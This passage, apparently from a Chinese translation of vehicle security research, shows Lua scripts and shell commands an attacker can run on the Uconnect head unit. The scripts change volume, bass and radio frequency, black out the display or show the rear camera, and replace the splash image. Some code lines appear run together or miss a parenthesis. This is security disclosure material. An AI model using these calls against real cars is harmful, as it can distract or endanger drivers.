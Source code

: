 Uconnect系统的一个主要功能就是控制广播。攻击者可以很轻易地把广播音量设置成任意值。例如，如果攻击者知道现在播放的是爱司基地（Ace of Base）的歌，他们可以把音量调整到一个合适的级别（也就是最合适的音量）。

```
require "service"
params = {}
params.volume = tonumber(arg[1]) 
x=service.invoke("com.harman.service.AudioSettings", "setVolume", params)

```

低音
--

有时候，比如在听2 Live Crew的时候，调高低音是唯一的选择。喜欢重低音的攻击者可以使用下面的脚本来调整相应的级别。

```
require "service"
params = {}
params.bass = tonumber(arg[1]) x=service.invoke("com.harman.service.AudioSettings", "setEqualizer", params

```

电台（FM）
------

在路途中，最重要的任务之一就是选择一个合适的FM电台。通过编程LUA脚本也可以更换电台。

```
require "service"
Tuner = "com.harman.service.Tuner"
service.invoke(Tuner, "setFrequency", {frequency = 94700})

```

显示屏
---

这里有很多很多种办法都可以修改Uconnect的显示状态，比如完全关闭显示屏或显示后置摄像头。下面的几个代码示例可以更改屏幕显示：

```
require "service"
x=service.invoke("com.harman.service.LayerManager", "viewBlackScreen", {}) 
x=service.invoke("com.harman.service.LayerManager", "stopBlackScreen", {}) 
x=service.invoke("com.harman.service.LayerManager", "viewCameraInput", {}) 
x=service.invoke("com.harman.service.LayerManager", "stopViewInput", {}) 
x=service.invoke("com.harman.service.LayerManager", "showSplash", {timeout = 2})

```

显示图片
----

你还可以更改头单元上的显示屏来显示你选中的图片。这张图片的大小和格式（png）必须是正确的。然后，这张照片必须放到文件系统上的某个位置。最后，你就能告诉头单元要显示这张照片。

```
mount -uw /fs/mmc0/
cp pic.png /fs/mmc0/app/share/splash/Jeep.png pidin arg | grep splash
kill <PID>
splash -c /etc/splash.conf &

```
